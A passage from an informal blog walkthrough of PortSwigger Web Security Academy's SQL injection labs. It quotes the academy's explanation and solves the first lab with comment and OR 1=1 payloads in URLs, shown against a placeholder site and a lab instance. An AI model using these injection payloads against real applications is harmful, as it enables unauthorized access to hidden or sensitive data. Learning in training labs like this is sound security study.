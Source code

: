 ```yaml
---
layout: default
title : Muzec - SQL Injection - PortSwigger Web Academy 
---
```



### SQL Injection

Man it all about knowledge seriously everyone love that keep on learning man so i will be learning more on sql injection on portswigger academy feel free to learn along it will be long and fun. Don't be scared man we can solve all lol.

![image](https://user-images.githubusercontent.com/69868171/146219849-7e357c78-2bbd-4c1e-b467-86c19a93899b.png)


Now let get started already.

### What Is SQL Injecion

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior. 

*Taken From PortSwigger*

We all know it about interfering with sql queries to see what we have in the backend let dig in more.

### Impact Of A Successful SQL Injection Attack Vulnerabilities 

A successful SQL injection attack can result in unauthorized access to sensitive data, such as passwords, credit card details, or personal user information.


### SQL Injection Example With Hands On Labs ---> Retrieving Hidden Data

Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL: 

```
https://insecure-website.com/products?category=Gifts 
```

This causes the application to make an SQL query to retrieve details of the relevant products from the database: 
 
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
```

This SQL query asks the database to return: 


```
all details (*)
FROM the products tables
WHERE the Category is Gifts
and released is 1.
```

The restriction `released = 1` is being used to hide products that are not released. For unreleased products, presumably `released = 0`. 

The application doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like: 
 
```
https://insecure-website.com/products?category=Gifts'-- 
```

This results in the SQL query:

```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`. This means that all products are displayed, including unreleased products.

Going further, an attacker can cause the application to display all the products in any category, including categories that they don't know about: 

```
https://insecure-website.com/products?category=Gifts'+OR+1=1-- 
```

This results in the SQL query:

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
The modified query will return all items where either the category is `Gifts, or 1 is equal to 1`. Since `1=1` is always `true`, the query will return all items. 

Now let play with some labs.

### SQL Injection Lab 1

```
Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```

This lab contains an `SQL injection` vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

![image](https://user-images.githubusercontent.com/69868171/146226619-b674d609-5241-43bf-b8bd-dcbaa98d3d3e.png)

let access the lab.

![image](https://user-images.githubusercontent.com/69868171/146227012-0c9b6990-7ac9-47ca-bfdc-078e574b05d9.png)

Now let see what we have when we click on `Gifts` .

```
https://acbf1fde1fd94946c1df5b4e002500a4.web-security-academy.net/filter?category=Gifts
```

Which is just like the following below;

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
```

Now let exploit it.

![image](https://user-images.githubusercontent.com/69868171/146227735-50be270d-4633-43d0-8016-3bf68e8ddc36.png)

We can see that we have only 3 products listed but to solve the lab we need perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

```
https://acbf1fde1fd94946c1df5b4e002500a4.web-security-academy.net/filter?category=Lifestyle'+OR+1=1-- 
```

Our Query will be like that below;

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1--' AND released = 1
```

Now let try it.

![image](https://user-images.githubusercontent.com/69868171/146230544-f0b313fd-11f9-4b74-b241-30adb9320962.png)

Boom we solve it and have more products show to us.

![image](https://user-images.githubusercontent.com/69868171/146230656-2c05069f-3620-4221-928c-3509d39b2722.png)

Which mean we are done with the lab 1. Let move forward.

### Subverting Application Logic
